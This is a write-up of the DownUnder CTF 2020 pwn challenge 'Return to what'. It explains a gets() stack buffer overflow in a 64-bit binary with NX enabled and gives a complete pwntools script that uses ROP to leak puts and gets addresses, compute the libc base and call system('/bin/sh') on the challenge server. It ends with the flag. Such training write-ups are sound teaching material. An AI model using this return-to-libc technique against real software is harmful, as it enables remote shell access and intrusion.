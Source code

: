 # DownUnder CTF 2020: Pwn: Return to what
</br>**Category:** Pwn/Binary exploitation **Points:** 200 points
</br></br>
**Description:**</br>
This will show my friends!
>nc chal.duc.tf 30003

**Attachment:**
[return-to-what](return-to-what) (sha256sum: a679b33db34f15ce27ae89f63453c332ca7d7da66b24f6ae5126066976a5170b)

## Solution
What type of file is return-to-what:
```
$ file return-to-what
return-to-what: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=02d43d7f8ca04895439f73b904f5204ba9984802, not stripped
```

What security protections are implemented:
```
$ pwn checksec return-to-what
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

What the binary does:
```
$ ./return-to-what
Today, we'll have a lesson in returns.
Where would you like to return to?
OUR_INPUT
```
It prints a message, asks us for input and exits.

Let's decompile the binary using ghidra:
<p align=center><img src='main.png'></p>

Let's checkout `vuln()`:
<p align=center><img src='vuln.png'></p>

As we can see in the screenshot above, vuln() uses the vulnerable libc functions `gets`, that we can attack using a buffer overflow. Now, the question is, where will we return to?
With the protection NX enabled, we can't run instructions in the stack, meaning that using a shellcode is out of the question. Is there a winning function that we can use?
<p align=center><img src='functions.png'></p>
It doesn't look like it. So we will have to use ROP to do a return to libc attack. 

(just like in csaw ctf quals 2020 pwn/roppity, the only difference is that now the libc library isn't given to us).

## Exploit
```python
from pwn import *

local = False

host, port = 'chal.duc.tf', 30003
binary = './return-to-what'
elf = ELF(binary)

if local:
    p = process(binary)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    p = remote(host, port)
    libc = ELF('libc6_2.27-3ubuntu1_amd64.so')

def debug(bps):
    gdbscript = ''
    for bp in bps:
        gdbscript += 'b *0x{:x}'.format(bp)
    gdb.attach(p, gdbscript=gdbscript)
#debug([0x00000000004011ac])


p.recvuntil('Where would you like to return to?')
padding = b'A'*56

# leaking puts address
puts_plt = elf.symbols['puts']
main_plt = elf.symbols['main']
puts_got = elf.got['puts']
pop_rdi = 0x000000000040122b

log.info('puts_plt addr = ' + hex(puts_plt))
log.info('main addr     = ' + hex(main_plt))
log.info('puts_got addr = ' + hex(puts_got))
log.info('pop_rdi  addr = ' + hex(pop_rdi))

# making rop payload
rop_1 = padding + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_plt)
p.sendline(rop_1)

# extracting puts leaked address
p.recvline() # receives newline
puts_leaked = p.recvline().strip() # receives puts addresss
puts_leaked = u64(puts_leaked.ljust(8, b'\x00'))
log.info('leaked puts is ' + hex(puts_leaked))

p.recvuntil('Where would you like to return to?')

# leaking gets address
gets_got = elf.got['gets']

# making rop payload
rop_2 = padding + p64(pop_rdi) + p64(gets_got) + p64(puts_plt) + p64(main_plt) + p64(pop_rdi) + p64(gets_got) + p64(puts_plt) + p64(main_plt)
p.sendline(rop_2)

# extracting gets leaked address
p.recvline() # receives newline
gets_leaked = p.recvline().strip() # receives gets addresss
gets_leaked = u64(gets_leaked.ljust(8, b'\x00'))
log.info('leaked gets is ' + hex(gets_leaked))

p.recvuntil('Where would you like to return to?')

# find which libc is used on the server, with libc database at https://libc.rip, and download it
# libc6_2.27-3ubuntu1_amd64.so

# calculate libc base address
puts_libc = libc.symbols['puts']
libc.address = puts_leaked - puts_libc

# finding system and '/bin/sh'
system_addr = libc.symbols['system']
bin_sh_addr = next(libc.search(b'/bin/sh'))
log.info('system addr  = ' + hex(system_addr))
log.info('/bin/sh addr = ' + hex(bin_sh_addr))

# making rop payload
rop_3 = padding + p64(pop_rdi) + p64(bin_sh_addr) + p64(system_addr) + p64(pop_rdi) + p64(bin_sh_addr) + p64(system_addr) 
p.sendline(rop_3)

p.interactive()
```

## Flag
> DUCTF{ret_pUts_ret_main_ret_where???}
